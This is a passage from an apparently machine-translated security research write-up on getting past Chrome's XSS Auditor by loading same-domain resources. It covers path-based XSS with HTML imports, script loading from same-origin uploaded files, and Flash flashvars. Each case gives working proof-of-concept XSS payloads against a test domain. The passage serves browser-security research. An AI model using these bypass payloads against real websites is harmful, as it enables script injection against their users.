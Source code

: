 ### Use of resources in the same domain

XSS Auditor does not block loading same-domain resources that do not have queries. Bypassing is possible in some cases if the resources necessary for an attack can be placed in the same domain.

#### Case with XSS in path (Chrome only)

Conditions for attacking:

1. XSS that can write arbitrary tags is in the path
2. Doesn't require a query to display the page

PoC:

[https://vulnerabledoma.in/bypass/path/%3Clink%20rel=import%20href=%22%2Fbypass%2Fpath%2F%3Cscript%3Ealert(1)%3C%2Fscript%3E%22%3E](https://vulnerabledoma.in/bypass/path/)

```
PATH_INFO:/<link rel=import href="/bypass/path/<script>alert(1)</script>">
```

#### File upload function

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. Hosting user-uploaded files on the same origin

PoC:

[https://vulnerabledoma.in/bypass/text?q=%3Cscript%20src=/bypass/usercontent/xss.js%3E%3C/script%3E](https://vulnerabledoma.in/bypass/text?q=)

```
<script src=/bypass/usercontent/xss.js></script>
```

(Chrome only) [https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=/bypass/usercontent/icon.jpg%3E](https://vulnerabledoma.in/bypass/text?q=)

```
<link rel=import href=/bypass/usercontent/icon.jpg>
```

#### `flashvars`Use with Flash

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. `ExnternalInterface.call()`There is Flash passing the parameter string unescaped to the same origin
3. Flash can be used in the target environment

supplement:

`flashvars`Attributes let you pass parameters without having to provide Flash parameters directly in the query. (= On the Flash side, even if passing parameters from the URL is restricted as a countermeasure against XSS by opening Flash directly, `flashvars`it can be passed.) In addition, `Content-Security-Policy: default-src 'self'`when there is a CSP such as also available.
